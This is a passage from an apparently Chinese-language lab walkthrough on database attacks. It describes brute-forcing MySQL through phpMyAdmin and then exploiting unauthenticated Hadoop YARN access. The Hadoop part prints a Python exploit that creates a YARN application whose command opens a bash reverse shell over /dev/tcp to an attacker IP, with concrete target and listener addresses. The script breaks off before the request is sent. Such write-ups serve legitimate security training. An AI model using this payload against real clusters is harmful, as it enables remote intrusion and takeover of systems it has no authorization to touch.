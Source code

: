 ### 2、漏洞复现

        首先将环境启动起来。

        在网上随便找一个扫描接口来对环境的开放端口进行扫描，在下图位置输入ip。

        探针结果如下图所示，可以看到3306端口开放，因此我们可以知道mysql服务存在。  

        接下来我们就来判断上面写的漏洞是否存在，只需要执行下面的命令。

        将上图所示的命令执行后效果如下图所示，可以看到因为密码错误，就一直报错，但是在某一刻，没有再报错，而是直接进入到了数据库里面。

### 3、知识点补充

        mysql默认配置只能本地登陆root用户，远程的连接请求时被拒绝的，那么我们就无法来对其进行密码爆破了，因为我们连接都连接不上。

        因此我们就只能使用类似phpMyAdmin来进行猜解，因为其属于第三方的数据库管理应用，其搭建在对方的服务器上，因此就可以借助其来登陆数据库，此时数据的发送就是从本地到本地，所以可能进行测试。

        那么如何来判断网站是否存在phpMyAdmin呢，可以使用浏览器访问网站并尝试在URL地址栏输入以下内容（也可以使用目录扫描工具直接进行扫描，观察是否存在相关路径）：

        如果看到了phpMyAdmin的登录页面，那么该网站很可能存在phpMyAdmin，并且可以使用默认的登录凭据进行登录。

        如果您看到一个404错误页面，那么该网站可能不存在phpMyAdmin，或者它已经被移动到其他位置。

        但是请注意，即使看不到上述URL之一，也不能完全排除该网站存在phpMyAdmin的可能性。管理员可能已经将phpMyAdmin重命名或移动到其他位置以避免被发现，因此在评估网站的安全性时，还需要进行其他安全检查。

## **四 、Hadoop-未授权访问-内置配合命令执行 RCE**

### 1、Hadoop简介

        Hadoop是一个开源的分布式计算平台，用于处理大规模数据集。它提供了分布式存储和分布式处理能力，可以在大规模服务器集群上进行高效的数据处理。

        通常被用于处理大规模的数据集，如数据分析、数据挖掘、机器学习等应用场景。它的设计理念是通过将大规模数据分割成多个数据块，并在多个计算节点上并行处理这些数据块，从而实现高效的数据处理。

        常用的端口配置如下（我们平时主要看的是50010端口）： 

### 2、漏洞复现

        进入靶场后，在数据库选项内选择“Hadoop”。

        启动环境。

        进入靶场提供的地址。

        访问/cluster/apps页面：（该页面存在说明存在未授权访问漏洞）。

        使用以下官方exp反弹shell。

```
#!/usr/bin/env python

import requests

target = 'http://123.58.236.76:31367/' # 将这里更改为目标主机地址，监听端口为9999
lhost = '47.94.236.117' # 输入你的ip地址（外网反弹地址）在这里，是用来接收shell的回连地址，监听端口为9999

url = target + 'ws/v1/cluster/apps/new-application'
resp = requests.post(url)
app_id = resp.json()['application-id']
url = target + 'ws/v1/cluster/apps'
data = {
    'application-id': app_id,
    'application-name': 'get-shell',
    'am-container-spec': {
        'commands': {
            'command': '/bin/bash -i &gt;&amp; /dev/tcp/%s/9999 0&gt;&amp;1' % lhost,
        },
    },
    'application-type': 'YARN',
}
```